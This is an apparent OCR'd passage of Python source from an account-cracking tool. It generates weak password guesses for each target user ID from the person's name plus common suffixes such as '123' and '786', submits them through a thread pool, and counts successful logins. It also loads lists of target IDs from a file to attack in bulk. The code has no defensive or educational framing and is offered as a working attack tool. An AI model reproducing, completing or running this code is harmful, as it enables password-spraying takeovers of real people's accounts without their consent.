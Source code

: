 						elif len(xz) == 4:

							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]

						else:

							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]

						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)

					except:

						pass

			os.remove(self.apk)

			hasil(ok,cp)

		else:

			print('\nSalah')

			time.sleep(1)

			self.__pler__()

			

class __filecrack3__:

	def __init__(self):

		self.id = []

	def plerr(self):

		os.system("clear");print(banner)

		print('          \033[1;32m[ File CLONING ONLY OK IDS ] ')

		print(50*"\033[1;97m_")

		try:

			self.apk = input("\033[1;37m[+] \033[1;36mFILE PATH\033[1;31m : \033[1;32m ")

			print ('')

			self.id = open(self.apk).read().splitlines()

		except:

			print('\n \033[1;37m[!] \033[1;31mFile Not Found In Storage')

			input('\n\033[1;37m[*] \033[1;36mPress Enter To Back');main()

            

     

		self.__pler__()

	def __mbasic__(self, user, _sempak_):

		global ok,cp,loop

		sys.stdout.write(f"\r \x1b[1;97m[\033[1;36mPHD\033[1;37m] {loop}/{len(self.id)} \033[1;37m[\033[1;32mOK-{len(ok)}\033[1;37m] ")
